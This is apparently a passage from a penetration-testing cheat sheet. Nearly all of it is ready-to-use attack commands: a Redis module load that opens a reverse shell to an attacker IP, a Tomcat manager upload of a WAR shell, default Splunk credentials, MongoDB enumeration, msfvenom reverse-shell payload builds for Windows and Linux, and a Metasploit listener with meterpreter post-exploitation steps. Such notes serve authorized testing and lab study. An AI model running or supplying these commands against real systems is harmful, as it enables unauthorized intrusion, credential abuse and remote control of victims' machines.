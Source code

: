 ```shell
MODULE LOAD /[DIRECTORY]/[TO]/[MODULE].so 
system.rev [ATTACKER_IP] [PORT]
```

#### Apache Tomcat (8080)

```shell
Default page:
/admin
/manager
/manager/html
Exploit script manager:
curl -u 'tomcat:[PASSWORD]' http://[IP_ADDR]:8080/manager/text/deploy?path=/[PATH] -T rev.war
```

#### SPLUNK (8089)

```
Default Credential 
admin:changeme
```

#### MongoDB (27017)

```
mongo
show dbs
use [DATABASE]
show collections
db.[COLLECTIONS].find()
```

## Working with MSFVENOM and MSFCONSOLE

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[MY_IP_ADDR] LPORT=4444 -f [asp/aspx/php/filetype] > [OUTPUT_FILE.asp/aspx/php/filetype]
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.49.134 LPORT=4242 -f elf > reverse.elf
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.74 LPORT=21 -f msi> evil.msi
msfvenom -p windows/x64/shell/reverse_tcp lhost=192.168.119.219 lport=8888 -f exe -a x64 > vuln64.exe

----------------------------------
msfconsole:
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp   # payload match with the one used in venom
run     # start listener

----------------------------------
meterpreter session:
getuid     # get current user session
sysinfo    # get information of the remote system
background / ctrl+z
use post/multi/recon/local_exploit_suggester    # set session number
```
